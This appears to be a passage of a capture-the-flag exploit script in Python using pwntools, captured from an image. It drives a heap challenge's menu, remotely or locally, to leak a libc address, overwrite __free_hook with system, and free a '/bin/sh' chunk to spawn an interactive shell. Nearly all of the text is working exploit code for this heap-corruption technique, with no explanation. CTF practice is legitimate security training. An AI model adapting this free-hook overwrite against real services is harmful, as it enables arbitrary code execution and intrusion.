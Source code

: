 ```python
    p.sendline('4')
    p.recvuntil('Index to view:')
    p.sendline(str(index))

def free():
    p=q
    p.recvuntil('>>')
    p.sendline('2')


def edit(index: int, size: int, data: bytes|str):
    # Workaround for weird vs code bug
    p=q
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil('Index to edit:')
    p.sendline(str(index))
    p.recvuntil('Enter size:')
    p.sendline(str(size))
    p.clean()
    p.sendline(data)


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("hack.scythe2021.sdslabs.co", 17169)

q = None
def main():
    r = conn()
    e = elf
    p = r
    global q
    q = p

    malloc(4,1)
    malloc(2,3)
    malloc(4294967293,10)
    free()
    free()
    free()
    print("Freed!")
    view(3)
    leak = p.recvline(keepends=False)[1:]
    print(leak, len(leak))
    leak = u64(leak + b"\0\0")
    libc.address = leak-0x1ebbe0
    print(hex(leak), hex(libc.address))
    edit(4,9,p64(libc.sym.__free_hook))

    print("Wrote free hook")
    malloc(3,3)
    edit(4,9, p64(libc.sym.system))
    malloc(1,3)
    edit(6,8,b"/bin/sh")

    free()

    r.interactive()


```
